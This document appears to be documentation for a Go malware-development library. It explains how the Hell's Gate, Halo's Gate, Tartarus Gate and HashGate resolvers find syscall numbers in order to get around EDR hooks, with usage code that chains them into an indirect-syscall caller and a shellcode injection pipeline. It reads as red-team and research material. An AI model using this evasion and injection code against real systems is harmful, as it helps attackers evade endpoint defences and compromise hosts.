






---
---

# SSN Resolvers: Hell's Gate, Halo's Gate, Tartarus Gate, HashGate

[<- Back to Syscalls Overview](README.md)

**MITRE ATT&CK:** [T1106 - Native API](https://attack.mitre.org/techniques/T1106/)
**D3FEND:** [D3-SCA - System Call Analysis](https://d3fend.mitre.org/technique/d3f:SystemCallAnalysis/)

---

> **New to maldev syscalls?** Read the [syscalls/README.md
> vocabulary callout](README.md#primer--vocabulary) first
> (syscall, NTAPI, SSN, userland hook, direct/indirect,
> API hashing, gate-family resolvers).

## What SSN resolvers are NOT

> [!IMPORTANT]
> SSN resolvers is **only** the syscall-number-discovery axis
> (concern #2 in [README.md](README.md)). It answers "where does
> the syscall service number come from when the canonical source
> (the unhooked ntdll prologue) is unavailable?".
>
> It does **not** decide:
>
> - **how the syscall fires once the SSN is known** — that's the
>   calling method ([direct-indirect.md](direct-indirect.md)).
>   `HellsGate` is happy to feed an SSN to `MethodWinAPI` — the
>   call still goes through every hook.
> - **how the Nt\* export is identified** — that's
>   [api-hashing.md](api-hashing.md). `HashGate` is the resolver
>   that *uses* api-hashing internally; the rest still need a
>   plaintext name.
>
> Switching from `HellsGate` to `TartarusGate` does not change
> what hooks see; it only changes where the SSN was read. Pair
> the resolver with the calling method that matches your
> stealth target.

## Primer

Every Windows kernel function has a secret number called the SSN (Syscall Service Number). When you want to call the kernel directly (bypassing EDR hooks), you need to know this number. The problem is, these numbers are not documented and change between Windows versions.

**Each NT function has a secret number -- these resolvers figure out the number even when guards try to hide it.** Think of it like a secret menu at a restaurant. Hell's Gate reads the number directly from the menu (if nobody has covered it up). Halo's Gate checks the neighboring items on the menu to figure out what your item's number must be. Tartarus Gate follows the "see other page" redirect that the guards placed over the menu. HashGate uses a codebook to find the menu item without even knowing its name.

---

## How It Works

Every resolver answers the same question — "what SSN does `NtXxx` map to on this host?" — but with different assumptions about how tampered the in-process ntdll is.



- **Hell's Gate** — read `mov eax, imm32` directly from the unhooked prologue. Fastest, fails on any hooked function.
- **Halo's Gate** — target hooked? scan neighbours (±500 stubs × 32 bytes). Since SSNs are sequential in ntdll, an unhooked neighbour N stubs away implies `target_SSN = neighbour_SSN ± N`.
- **Tartarus' Gate** — target patched with `E9 xx xx xx xx` or `EB xx`? follow the JMP into the EDR trampoline; most trampolines restore `mov eax, imm32` before the real `syscall` instruction.
- **Hash-based (HashGate)** — resolve the function address itself via PEB walk + ROR13 export hashing. No `"NtAllocateVirtualMemory"` string anywhere in the binary. Falls back to Hell's Gate for SSN extraction once the address is found.
- **Chain** — compose resolvers (e.g. Tartarus → HashGate → Halo's); first success wins, giving layered resilience without reimplementing the strategies individually.

---

## How Each Resolver Works

### The ntdll Prologue

Every unhooked NT function in ntdll starts with the same byte pattern:

```asm
4C 8B D1          mov r10, rcx       ; save first argument
B8 XX XX 00 00    mov eax, <SSN>     ; load syscall number
...
0F 05             syscall            ; enter kernel
C3                ret
```

The SSN is the two bytes at offset `+4` and `+5`. All resolvers ultimately extract these bytes.

### Decision Tree



---

### Hell's Gate

The simplest resolver. Reads the SSN directly from the unhooked function prologue.



**When to use:** You know ntdll is not hooked (e.g., you loaded a fresh copy from disk, or the target has no EDR).

**Fails when:** Any EDR has patched the function prologue (the most common hooking strategy).

### Halo's Gate

Extends Hell's Gate by exploiting the fact that SSNs are sequential in ntdll. If `NtCreateThreadEx` is hooked but the function 3 stubs above it (`NtCreateFile`, SSN=0x55) is not, then `NtCreateThreadEx`'s SSN is `0x55 + 3`.



**When to use:** EDR hooks your target function but leaves some neighbors unhooked.

**Fails when:** All 1000 neighboring stubs (500 up, 500 down) are hooked. Extremely unlikely in practice.

### Tartarus Gate

Extends Hell's and Halo's Gate by understanding JMP hooks. When an EDR patches a function with `E9 xx xx xx xx` (near JMP) or `EB xx` (short JMP), Tartarus follows the jump to the EDR's trampoline code. The trampoline typically restores the original `mov eax, <SSN>` instruction before executing the syscall, so Tartarus scans the trampoline for the `B8 XX XX` pattern.



**When to use:** Default choice for maximum resilience. Handles unhooked, JMP-hooked, and partially hooked ntdll.

**Fails when:** The trampoline code does not contain a recognizable `mov eax, imm32` AND all neighbors are also hooked.

### HashGate

Resolves the function address via PEB walk + ROR13 export hashing instead of `ntdll.NewProc(name)`. This eliminates string-based resolution entirely -- no `"NtAllocateVirtualMemory"` in the binary.

Once the function address is found via hash, SSN extraction uses the same Hell's Gate prologue check.



**When to use:** When you need string-free resolution. Combine with `Chain()` for hook resilience.

**Fails when:** The function is hooked (no neighbor scanning built in -- use `Chain()` with HalosGate for fallback).

---

## Usage

### Individual Resolvers

```go
import wsyscall "github.com/oioio-space/maldev/win/syscall"

// Hell's Gate -- fast, simple, fails on hooked functions
hg := wsyscall.NewHellsGate()
ssn, err := hg.Resolve("NtCreateThreadEx")

// Halo's Gate -- neighbor scanning fallback
hag := wsyscall.NewHalosGate()
ssn, err := hag.Resolve("NtCreateThreadEx")

// Tartarus Gate -- JMP hook trampoline + neighbor fallback
tg := wsyscall.NewTartarus()
ssn, err := tg.Resolve("NtCreateThreadEx")

// HashGate -- string-free PEB walk resolution
hgr := wsyscall.NewHashGate()
ssn, err := hgr.Resolve("NtCreateThreadEx")
```

### Chain: Compose Resolvers

```go
import wsyscall "github.com/oioio-space/maldev/win/syscall"

// Try Tartarus first (handles JMP hooks), fall back to HashGate,
// then Halo's Gate as last resort
resolver := wsyscall.Chain(
    wsyscall.NewTartarus(),
    wsyscall.NewHashGate(),
    wsyscall.NewHalosGate(),
)

caller := wsyscall.New(wsyscall.MethodIndirect, resolver)
defer caller.Close()

ret, err := caller.Call("NtAllocateVirtualMemory", /* args... */)
```

### With Injection Pipeline

```go
import (
    "context"

    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

// Resilient resolver chain for hostile EDR environments
caller := wsyscall.New(wsyscall.MethodIndirect,
    wsyscall.Chain(
        wsyscall.NewTartarus(),
        wsyscall.NewHalosGate(),
    ),
)
defer caller.Close()

pipe := inject.NewPipeline(caller)
err := pipe.Inject(context.Background(), shellcode,
    inject.WithMethod(inject.MethodCreateThread),
)
```

---

## Combined Example: Resolver Resilience Test

```go
package main

import (
    "fmt"

    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    functions := []string{
        "NtAllocateVirtualMemory",
        "NtProtectVirtualMemory",
        "NtCreateThreadEx",
        "NtWriteVirtualMemory",
    }

    resolvers := map[string]wsyscall.SSNResolver{
        "HellsGate":   wsyscall.NewHellsGate(),
        "HalosGate":   wsyscall.NewHalosGate(),
        "TartarusGate": wsyscall.NewTartarus(),
        "HashGate":    wsyscall.NewHashGate(),
    }

    for name, resolver := range resolvers {
        fmt.Printf("\n--- %s ---\n", name)
        for _, fn := range functions {
            ssn, err := resolver.Resolve(fn)
            if err != nil {
                fmt.Printf("  %s: FAILED (%v)\n", fn, err)
            } else {
                fmt.Printf("  %s: SSN=0x%04X\n", fn, ssn)
            }
        }
    }
}
```

---

## Advantages & Limitations

### Advantages

- **Layered resilience**: `Chain()` composes resolvers so the first successful one wins
- **JMP-hook aware**: Tartarus Gate follows EDR trampolines that other resolvers cannot handle
- **String-free option**: HashGate eliminates all plaintext function names
- **Zero external dependencies**: Pure Go + unsafe pointer arithmetic, no CGo or assembly files
- **Thread-safe**: HashGate uses `sync.Once` for lazy initialization; Caller uses `sync.Mutex` for stubs

### Limitations

- **Hell's Gate**: Fails on any hooked function -- too fragile for production use alone
- **Halo's Gate**: Assumes 32-byte stub alignment -- non-standard ntdll layouts break it
- **Tartarus Gate**: Cannot handle inline hooks that do not contain a recognizable `mov eax, imm32`
- **HashGate**: No hook resilience -- combine with Halo's/Tartarus via `Chain()` for robustness
- **All resolvers**: x64 only; SSN offsets and stub layouts differ on x86 and ARM64

---

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/win/syscall`](https://pkg.go.dev/github.com/oioio-space/maldev/win/syscall) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## See also

- [Syscalls area README](README.md)
- [`syscalls/api-hashing.md`](api-hashing.md) — HashGate uses these primitives to find Nt* exports
- [`syscalls/direct-indirect.md`](direct-indirect.md) — once the SSN is known, this is how the syscall fires
